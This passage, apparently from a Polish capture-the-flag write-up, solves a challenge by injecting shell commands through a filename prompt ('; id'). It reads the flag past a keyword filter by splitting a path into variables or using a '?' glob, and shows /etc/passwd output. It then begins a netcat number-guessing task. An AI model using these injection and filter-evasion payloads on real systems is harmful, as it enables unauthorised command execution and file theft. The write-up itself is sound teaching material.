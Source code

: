 ```bash
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
stefan:x:1000:1000::/home/stefan:/bin/sh
```

Super, no to w takim razie na ile możemy wywoływać komendy systemowe? Sprawdźmy to dodając średnik i wywołując komendę id:

```bash
wpisz nazwe: lista_pokemonow.txt ; id
Pikaczu
Rajczu
Bulbazaur
Ten taki smieszny z oczkami
Czarizard
Mjutu
Mjut
uid=1000(stefan) gid=1000(stefan) groups=1000(stefan)
```

O kurcze, nie tylko wyświetliliśmy pokemony, ale też wykonaliśmy komendę. No to nie pozostaje nic innego jak wypisać sobie ten plik z flagą, ale okazuje się, że niektóre ze słów w inpucie są traktowane jako próba nieuprawnionego dostępu - nie możemy wpisać grep, nie możemy wpisać flaga, nie możemy użyć nawet gwiazdki, żeby wypisać catem wszystkie pliki w folderze.

Tutaj musimy być trochę kreatywni. Możemy np. przypisać sobie fragmenty niedozwolonej frazy do dwóch zmiennych a i b, a potem połączyć je wykonując cata:

```bash
; a=/pwn/articles/flag && b=a.txt && cat $a$b
```

W trakcie CTFa okazało się, że można jeszcze prościej bo cat akceptuje różne znaki specjalne wśród których poza zakazaną gwiazdką jest także znak zapytania. Flagę mogliśmy więc otrzymać wpisując również na przykład:

```bash
fl?ga.txt
```

### Kontrola umysłu

Łącząc się przy pomocy netcata zostaje nam zaproponowana gra w zgadywanie liczby o jakiej pomyślał przeciwnik. Co gorsza robić trzeba to szybko i bez namysłu, bo na podanie prawidłowej odpowiedzi mamy mniej niż sekundę. 

```bash
> nc 159.223.14.19 30302
Witaj w grze numer 284798
Zgadnij jaką liczbę pomyślałem? 
Zgaduj, a nie licz... zbyt wolno!
```

